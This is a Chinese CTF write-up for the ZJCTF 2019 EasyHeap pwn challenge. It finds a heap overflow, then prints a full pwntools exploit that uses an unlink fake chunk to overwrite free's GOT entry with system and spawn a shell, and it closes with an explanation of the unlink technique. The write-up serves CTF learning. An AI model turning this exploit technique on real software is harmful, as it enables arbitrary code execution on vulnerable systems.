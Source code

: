 ## [ZJCTF 2019]EasyHeap

这里看到题目是一个heap应用这里先经典三件套

![image-20241229143805090](./../images/image-20241229143805090.png)

这里发现是一个64位的文件开启了canary和一个栈不可以执行

![image-20241229143934398](./../images/image-20241229143934398.png)

这里发现是一个经典的菜单题

先看main函数![image-20241229144146295](./../images/image-20241229144146295.png)

这里可以看到一些常见的逻辑点发现有一个133t()函数今天去看看发现了一个漏洞

![image-20241229144040675](./../images/image-20241229144040675.png)

其他的先看heap的创建函数

![image-20241229144405078](./../images/image-20241229144405078.png)

发现heaparray中存放了chunk并且read_input()函数向chunk中写入了size并且可以知道heaparray存放在bss段中

![image-20241229144708497](./../images/image-20241229144708497.png)

这里看到是一个read_input中把v0改成v2可以存在堆溢出

![image-20241229145138671](./../images/image-20241229145138671.png)

这里发现不可能存在uaf应为free后进行了初始化的一个变化因此想到了堆溢出

但是想到上面的那个漏洞函数中发现它并不存在这个目录因此试试堆溢出

所以优先先到了unlink

并且他没有开启pie保护因此正好可以修改free的got表

因此exp：

```python
from pwn import *
context.log_level='debug'
io = process('/home/fofa/easyheap')
# io = remote("node5.buuoj.cn",26420)
elf = ELF('/home/fofa/easyheap')

def add(size,content):
    io.recvuntil("choice :")
    io.sendline("1")
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap:")
    io.send(content)


def edit(index,size,content):
    io.recvuntil("choice :")
    io.sendline("2")
    io.recvuntil("Index :")
    io.sendline(str(index))
    io.recvuntil("Size of Heap : ")
    io.sendline(str(size))
    io.recvuntil("Content of heap : ")
    io.send(content)

def delete(index):
    io.recvuntil("choice :")
    io.sendline("3")
    io.recvuntil("Index :")
    io.sendline(str(index))

# heaparray_addr = 0x6020E0
system_plt = elf.plt['system']
free_got = elf.got['free']

add(0x90,'aaaaa')
add(0x90,'bbbbb')
add(0x20,b'/bin/sh\x00')


heaparay_addr = 0x06020E0
fake_chunk = p64(0)+p64(0x91)+p64(heaparay_addr-0x18)+p64(heaparay_addr-0x10)
fake_chunk = fake_chunk.ljust(0x90,b'm')
fake_chunk += p64(0x90)+p64(0xa0)
# gdb.attach(io)
edit(0,0x100,fake_chunk)
delete(1)
payload = p64(0)*3 +p64(free_got)
edit(0,0x10 ,payload)
gdb.attach(io)

edit(0,8,p64(system_plt))
delete(2)

# gdb.attach(io)

# payload =
io.interactive()
```

---

### 总结

这个题目主要用到了unlink的一个方法

#### 基本原理

unlink是一个宏操作，用于将某一个空闲 chunk 从其所处的双向链表中脱链，

我们来利用unlink 所造成的漏洞时，其实就是对进行 unlink chunk 进行**内存布局**，然后借助 **unlink** 操作来达成修改指针

的效果。

##### 利用条件

1. UAF ，可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
2. 已知位置存在一个指针指向可进行 UAF 的 chunk

##### 利用思路

设指向可 UAF chunk 的指针的地址为 ptr

1. 修改 fd 为 ptr - 0x18
2. 修改 bk 为 ptr - 0x10
3. 触发 unlink

ptr 处的指针会变为 ptr - 0x18。

##### 实现效果

可以是的我们可以直接更改ptr-0x18位置的chunk的地址是的它可以替换为system函数的got表